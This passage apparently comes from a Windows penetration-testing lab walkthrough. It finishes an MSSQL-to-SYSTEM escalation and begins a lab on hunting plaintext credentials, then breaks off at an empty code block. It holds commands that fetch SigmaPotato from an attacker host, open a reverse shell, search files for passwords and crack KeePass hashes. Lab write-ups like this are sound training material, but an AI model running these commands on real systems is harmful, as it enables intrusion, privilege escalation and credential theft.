    - When your listener catches the shell, check for SeImpersonate privilege.
   ```bash
   whoami /priv
   ```
   - Serve SigmaPotato executable via a Python server.
   ```bash
   python3 -m http.server 80
   ```
   - Download SigmaPotato to the target’s writable Public directory.
   ```bash
   curl http://<ATTACKER_IP>/SigmaPotato.exe -o C:\Users\Public\SigmaPotato.exe
   ```
   - Start a listener on a different port in your machine and execute SigmaPotato for a reverse shell.
   ```bash
   .\SigmaPotato.exe --revshell <ATTACKER_IP> <ATTACKER_PORT>
   ```

#### Why It Works
Weak MSSQL credentials allow command execution via xp_cmdshell, and SeImpersonate privilege enables escalation to SYSTEM using SigmaPotato.
 
#### Alternatives
- Use Metasploit’s MSSQL module for automated shell delivery.

#### Resources
- [MSSQL xp_cmdshell Guide: https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
- [SigmaPotato: https://github.com/tylerdotrar/SigmaPotato/releases/tag/v1.2.6](https://github.com/tylerdotrar/SigmaPotato/releases/tag/v1.2.6)

#### Notes
- Ensure a listener is active before triggering the reverse shell.
- Download SigmaPotato and the wordlist if not already available.

---

### Lab 4: Finding Credentials in Plaintext
#### Objective
Locate and crack credentials stored on a Windows system.

#### Vulnerabilities
- Insecure Storage: Plaintext credentials in configuration files or memory.

#### Requirements
Target Windows machine must be accessible with user-level credentials.

#### Steps
1. **Setup**
   - Verify access to the target system.
   ```bash
   net use \\<TARGET_IP>
   ```
   - Connect to the workstation via RDP
   ```bash
   xfreerdp /u:<USER> /p:<PASSWORD> /v:<WORKSTATION_IP> +clipboard +home-drive
   ```
2. **Reconnaissance**
   - Search for configuration files containing credentials. You can search directories manually too. In our case, Secret.kdb was found in C:\
   ```bash
   findstr /si "password" C:\*.config [Example]
   ```
3. **Exploitation**
   - We need to decrypt Secret.kdp. First dump the hash with keepass2john and then crack it.
   ```bash
   ```